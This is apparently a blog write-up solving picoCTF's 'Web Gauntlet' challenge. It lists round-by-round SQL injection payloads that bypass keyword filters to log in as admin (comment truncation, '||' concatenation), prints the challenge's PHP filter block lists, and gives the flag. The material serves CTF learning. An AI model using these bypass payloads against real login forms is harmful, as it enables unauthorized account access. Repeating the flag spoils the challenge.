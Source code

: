 ## Blog
https://frc6.com/index.php/archives/42/

## Source
https://play.picoctf.org/events/3/challenges/challenge/88

## Question
Can you beat the filters? Log in as admin 
http://jupiter.challenges.picoctf.org:50595/
http://jupiter.challenges.picoctf.org:50595/filter.php

It is actually execute the following sql in sqlite

SELECT * FROM users WHERE username='*[username]*' AND password='*[password]*'

## Attempts
attempts on http://jupiter.challenges.picoctf.org:50595/index.php

After the following attempts, it responds "Congrats! You won! Check out filter.php"

### Round 1 
filter: Round1: or

username: admin' --

password: 1 *(anything)*

SELECT * FROM users WHERE username='admin' --' AND password='1'

### Round 2
filter: Round2: or and like = --

username: admin'; /*

password: 1 *(anything)*

SELECT * FROM users WHERE username='admin'; /*' AND password='1'

### Round 3
filter: Round3:   or and = like > < --

Tips: there is a space char (" ") in the filter

username: admin';/*

password: 1 *(anything)*

SELECT * FROM users WHERE username='admin';/*' AND password='1'

### Round 4
filter: Round4:   or and = like > < -- admin

Tips: there is a space char (" ") in the filter

username: admi'||'n';

password: 1 *(anything)*

SELECT * FROM users WHERE username='admi'||'n';' AND password='1'

### Round 5
filter: Round5:   or and = like > < -- union admin

Tips: there is a space char (" ") in the filter

username: admi'||'n';

password: 1 *(anything)*

SELECT * FROM users WHERE username='admi'||'n';' AND password='1'

### You Won
![Round 6-5.png][1]

## Check out filter.php

    <?php
    session_start();
    
    if (!isset($_SESSION["round"])) {
        $_SESSION["round"] = 1;
    }
    $round = $_SESSION["round"];
    $filter = array("");
    $view = ($_SERVER["PHP_SELF"] == "/filter.php");
    
    if ($round === 1) {
        $filter = array("or");
        if ($view) {
            echo "Round1: ".implode(" ", $filter)."<br/>";
        }
    } else if ($round === 2) {
        $filter = array("or", "and", "like", "=", "--");
        if ($view) {
            echo "Round2: ".implode(" ", $filter)."<br/>";
        }
    } else if ($round === 3) {
        $filter = array(" ", "or", "and", "=", "like", ">", "<", "--");
        // $filter = array("or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
        if ($view) {
            echo "Round3: ".implode(" ", $filter)."<br/>";
        }
    } else if ($round === 4) {
        $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "admin");
        // $filter = array(" ", "/**/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
        if ($view) {
            echo "Round4: ".implode(" ", $filter)."<br/>";
        }
    } else if ($round === 5) {
        $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "union", "admin");
        // $filter = array("0", "unhex", "char", "/*", "*/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
        if ($view) {
            echo "Round5: ".implode(" ", $filter)."<br/>";
        }
    } else if ($round >= 6) {
        if ($view) {
            highlight_file("filter.php");
        }
    } else {
        $_SESSION["round"] = 1;
    }
    
    // picoCTF{y0u_m4d3_1t_d846125f7bdbf4d6e89cbc5edb6fa739}
    ?>

So, the Flag is `picoCTF{y0u_m4d3_1t_d846125f7bdbf4d6e89cbc5edb6fa739}`

  [1]: https://frc6.com/usr/uploads/2020/10/2029320702.png
